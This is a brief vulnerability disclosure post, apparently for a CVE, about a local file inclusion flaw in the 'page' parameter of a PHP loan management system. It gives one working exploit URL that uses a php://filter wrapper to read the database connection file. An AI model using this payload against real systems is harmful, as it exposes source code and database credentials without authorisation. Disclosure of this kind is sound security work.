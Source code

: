 ```yaml
---
layout: post
title: 
tags: [CVE, LFI]
description: "Local File Inclusion (LFI) vulnerability in 'index.php', 'page' parameter of SourceCodesters Loan Management System v1.0."
---
```


## Local File Inclusion (LFI)

Local File Inclusion (LFI) vulnerability in 'index.php', 'page' parameter of SourceCodesters Loan Management System v1.0.

Vulnerable path : http://localhost/loan/index.php?page

### Exploitation :

#### Manually

```
http://localhost/loan/index.php?page=php://filter/convert.base64-encode/resource=db_connect
```



*More informations to come*